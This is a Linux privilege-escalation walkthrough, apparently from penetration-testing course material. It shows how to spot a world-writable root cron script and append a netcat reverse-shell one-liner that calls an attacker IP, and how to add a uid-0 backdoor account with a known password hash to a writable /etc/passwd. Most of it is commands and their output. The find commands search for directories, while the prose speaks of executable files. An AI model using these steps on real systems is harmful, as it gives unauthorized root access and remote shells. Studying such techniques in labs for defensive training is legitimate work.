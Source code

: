 ### Writable and executable file
In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. Useful commands are:
```bash
find / -perm -0002 -type d 2>/dev/null
find / -perm -0020 -type d 2>/dev/null
```

On a Linux system, the cron time-based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

For the purpose of this example, we will SSH to our dedicated Debian client. In a previous section, we showed where to look on the filesystem for installed cron jobs on a target system. We could also inspect the cron log file (/var/log/cron.log) for running cron jobs:

```
student@debian:~$ grep "CRON" /var/log/cron.log
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)
...
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:50:01 victim CRON[2631]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:55:01 victim CRON[2656]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

Since we know the location of the script, we can inspect its contents and permissions.

```
student@debian:~$ cat /var/scripts/user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/

student@debian:~$ ls -lah /var/scripts/user_backups.sh 
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Since an unprivileged user can modify the contents of the backup script, we can edit it and add a reverse shell one-line. If our plan works, we should receive a root-level reverse shell on our attacking machine after, at most, a five minute period.

```
student@debian:/var/scripts$ echo >> user_backups.sh 

student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

student@debian:/var/scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

### /etc/passwd

If the /etc/passwd file has writable permission we can add a line to /etc/passwd using the appropriate format:

```
student@debian:~$ openssl passwd evil
AK24fcSx2Il3I

student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

student@debian:~$ su root2
Password: evil

root@debian:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Other way
```
openssl passwd -1 -salt doom doom
    
echo 'doom:$1$doom$m/meYVrO7ZsSmCo1/p4v..:0:0:Hacker:/root:/bin/bash' >> /etc/passwd
```